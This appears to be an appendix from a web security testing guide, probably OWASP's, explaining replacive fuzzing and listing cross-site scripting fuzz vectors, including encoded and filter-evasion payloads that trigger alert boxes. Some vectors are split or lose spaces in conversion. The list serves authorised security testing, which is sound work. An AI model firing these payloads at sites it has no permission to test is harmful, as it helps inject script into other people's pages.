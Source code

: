 Testing against Cross Site Scripting (XSS) by sending the following fuzz vectors:

`http://www.example.com/>"><script>alert("XSS")</script>&`

`http://www.example.com/'';!--"<XSS>=&{()}`

This is a form of replacive fuzzing. In this category, the total number of requests is dependent on the number of fuzz vectors specified.

The remainder of this appendix presents a number of fuzz vector categories.

## Cross Site Scripting (XSS)

For details on XSS: [Cross-site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)

`>"><script>alert("XSS")</script>&`

`"><STYLE>@import"javascript:alert('XSS')";</STYLE>`

`>"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;`

`alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)>`

`>%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>`

`'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'`

`">`

`>"`

`'';!--"<XSS>=&{()}`

`<IMG SRC="javascript:alert('XSS');">`

`<IMG SRC=javascript:alert('XSS')>`

`<IMG SRC=JaVaScRiPt:alert('XSS')>`

`<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>`

`<IMGSRC=&#106;&#97;&#118;&#97;&<WBR>#115;&#99;&#114;&#105;&#112;&<WBR>#116;&#58;&#97;`

`&#108;&#101;&<WBR>#114;&#116;&#40;&#39;&#88;&#83<WBR>;&#83;&#39;&#41>`

`<IMGSRC=&#0000106&#0000097&<WBR>#0000118&#0000097&#0000115&<WBR>#0000099&#0000114&#0000105&<WBR>#0000112&#0000116:`

`&<WBR>#0000097&#0000108&#0000101&<WBR>#0000114&#0000116&#0000040&<WBR>#0000039&#0000088&#0000083&<WBR>#0000083&#0000039&#0000041>`

`<IMGSRC=&#x6A&#x61&#x76&#x61&#x73&<WBR>#x63&#x72&#x69&#x70&#x74&#x3A&<WBR>#x61&#x6C&#x65&#x72&#x74(`

`&<WBR>#x27&#x58&#x53&#x53&#x27&#x29>`

`<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">`
